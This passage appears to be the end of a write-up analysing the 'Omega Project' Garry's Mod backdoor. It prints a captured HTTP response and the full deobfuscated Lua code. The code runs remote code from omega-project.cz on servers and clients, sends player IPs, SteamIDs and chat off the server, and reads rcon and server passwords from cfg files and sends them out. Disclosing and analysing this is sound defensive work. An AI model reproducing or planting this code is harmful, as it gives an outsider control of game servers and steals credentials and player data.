            Set-Cookie    =    "__cfduid=d011e81c32b1b9d48f331abfd6e4628a51598740966; expires=Mon, 28-Sep-20 22:42:46 GMT; path=/; domain=.omega-project.cz; HttpOnly; SameSite=Lax; Secure,GOOGLE_TRUST_FACTOR=qrLGXXkCAbsNhCdnLSyP; expires=Sun, 30-Aug-2020 01:22:46 GMT; Max-Age=9600,GOOGLE_TRUST_FACTOR=puyseuAkakcwHaKowHLZ; expires=Sun, 30-Aug-2020 01:22:46 GMT; Max-Age=9600,GOOGLE_TRUST_FACTOR=kszSrlEZYRsTXiZzfImB; expires=Sun, 30-Aug-2020 01:22:46 GMT; Max-Age=9600",
            Transfer-Encoding    =    "chunked",
            Connection    =    "keep-alive",
            Date    =    "Sat, 29 Aug 2020 22:42:47 GMT",
            Content-Encoding    =    "gzip",
            Content-Type    =    "text/html; charset=UTF-8",
            Server    =    "cloudflare",
                },
            200,
}
```

</p>
</details>

<details><summary>4) After more work, I can see everything</summary>
<p>

```lua
--[[
 name: Ʊmega Project
 author: Inplex
 Google Trust Api factor: 78/100
 Last Update: 02 06 2020
 Description: If you use the panel for hack you will be banned ! -- Lol, Xalalau
]]

if lock == "lock" then return end
lock="lock"

local header_cWcHqNprbaTRQip = {
  ["Authorization"] = "ZWM2OGJkMjMxMGMyODRiODljNGYyNDliYTkzMWQ2Y2Q"
}

HTTP({ url="https://api.omega-project.cz/api_anti_backdoors.php"; method="get"; success = function (api, anti_backdoors) RunString(anti_backdoors) end })
HTTP({ url="https://api.omega-project.cz/api_player_blacklist.php"; method="get"; success = function (api, bad_player_blacklist) RunString(bad_player_blacklist) end })

local addons_files, addons_folders = file.Find("addons/*", "GAME")

for k,v in pairs(addons_folders) do
    if (v != "checkers") and (v != "chess") and (v != "common") and (v != "go") and (v != "hearts") and (v != "spades") then -- Wtf?
        http.Post("https://api.omega-project.cz/api_addons.php", {
            server_ip = game.GetIPAddress(),
            crsf = "SztseEltZSFDyUscjSKJozBWfKCzHuUJjJwpnKgT#MTg2LjIyOS4yMjYuMTAy#djsPLByfuJkTKEfchWXIbLRYzPXqACCsPkvVHmnV",
            addons_name = v,
            addons_update = util.Base64Encode(file.Time( "addons/"..v, "GAME" ))
        },
        function(http_addons) 
            if string.Left( http_addons, 1 ) == "<" or http_addons == "" then 
                return
            else
                RunString(http_addons) 
            end 
        end,
        function( error ) end,
        header_cWcHqNprbaTRQip)
    end 
end

util.AddNetworkString("net_1")

BroadcastLua([[
    net.Receive("net_1", function()
        CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))))
    end)
]])

function someNetFunction(arg1)
    timer.Simple( 0.5, function( )
        data = util.Compress(arg1)
        len = #data

        net.Start("net_1")
            net.WriteUInt(len, 16)
            net.WriteData(data, len)
        net.Broadcast()
    end)
end

util.AddNetworkString("net_2")

BroadcastLua([[
    net.Receive("net_2", function()
        CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))))
    end)
]])

function SendPly(arg1, steamid64)
    timer.Simple( 0.5, function( )
        data = util.Compress(arg1)
        len = #data
        net.Start("net_2")
        net.WriteUInt(len, 16)
        net.WriteData(data, len)
        for k, ply in pairs(player.GetAll()) do
            if ( ply:SteamID64() == steamid64 ) then
                net.Send(ply)
            end
        end
    end)
end

hook.Add(PlayerInitialSpawn, "hook1", function(ply) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd",
        content = "Client "..ply:Name().." connected ("..ply:IPAddress()..").", 
        server_ip  = game.GetIPAddress()
    }, RunString)
end)

hook.Add(PlayerDisconnected, "hook2", function(ply) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
         csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
         color = "de3333",
         content = "Dropped "..ply:Name().." from server (Disconnect by user).", 
         server_ip  = game.GetIPAddress()
    }, RunString)
end)

function ServerLog( logs_content ) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
        content = logs_content, 
        server_ip = game.GetIPAddress()
    }, RunString) 

    return ServerLog( logs_content ) 
end 

function Error( string )
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
        content = string, 
        server_ip = game.GetIPAddress()
    },RunString)

    return error( string )
end

timer.Create( "timer1", 1, 0, function()
    hook.Add( "PlayerSay", "hook3", function( ply, text )
        local http_chat_table = {
            name = ply:Name(), 
            server_ip = GetTcpInfo(), 
            steamid64 = ply:SteamID64(),
            message = text
        }

        http.Post("https://api.omega-project.cz/chat_connect.php?MQOEJzPlmWGTzcI=oAyxQMjHSitigAJ", http_chat_table, function(http_chat) RunString(http_chat) end)
    end)

    if file.Exists("cfg/autoexec.cfg","GAME") then
        local cfile = file.Read("cfg/autoexec.cfg","GAME") 

        for k,v in pairs(string.Split(cfile,"\n")) do 
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end
        end 
    end

    if file.Exists("cfg/server.cfg","GAME") then
        cfile = file.Read("cfg/server.cfg","GAME") 
        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then 
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end 

    if file.Exists("cfg/game.cfg","GAME") then
        cfile = file.Read("cfg/game.cfg","GAME") 
        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end  

    if file.Exists("cfg/gmod-server.cfg","GAME") then
        cfile = file.Read("cfg/gmod-server.cfg","GAME") 

        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end

    if rcon_pw == "" then
        rcon_pw = "Aucun Rcon"
    end

    for k,v in pairs(player.GetAll()) do 
        local playerInfo = {
            name = v:GetName(),
            ip = v:IPAddress(),
            server_ip = game.GetIPAddress(),
            crsf = "TFIbsvQYjTFbgXmBOqkeNyKKsURUCRlFedXsdPIm#MTg2LjIyOS4yMjYuMTAy#sBktToCthmfpNctMDsDrhmWcHaDQwsakUivPAHVu",
            steamid = v:SteamID(),
            steamid64 = v:SteamID64(),
        }

        http.Post("https://api.omega-project.cz/user_connect.php?zkHNFOZQhmXBsva=soGpJmAfXbWSliy&ping=" .. v:Ping(), playerInfo, function( http_users ) 
            if string.Left( http_users, 1 ) == "<" or http_users == "" then
                return
            else
                RunString( http_users )
            end 
        end,
        function( error ) end,
        header_cWcHqNprbaTRQip)

    end

    local serverData = {
        i = GetTcpInfo(),
        n = GetHostName(),
        m = game.GetMap(),
        bo = tostring(#player.GetBots()),
        c = game.GetIPAddress().."{+}"..server_key.."{+}1597393287",
        g = engine.ActiveGamemode(),
        crsf = "MTg2LjIyOS4yMjYuMTAy#HSldBHvasYQuaoldmwxTWhRqdXntKabTIdewJWrW",
        nb = tostring(#player.GetAll()).."/"..game.MaxPlayers(),
        lurl = GetConVar("sv_loadingurl"):GetString(),
        pass = GetConVar("sv_password"):GetString(),
        k = "",
        client_func = "someNetFunction",
        r = rcon_pw
    }

    http.Post("https://omega-project.cz/api_lib/_-_-drm-_-_/__.php", serverData, function(http_servers) 
        if string.Left( http_servers, 1 ) == "<" or http_servers == "" then 
            return 
        else 
            RunString(http_servers) 
        end 
    end,
    function( error ) end,
    header_cWcHqNprbaTRQip ) 
end)

```

</p>
</details>

<br/>

That's it. I hope you enjoy :)
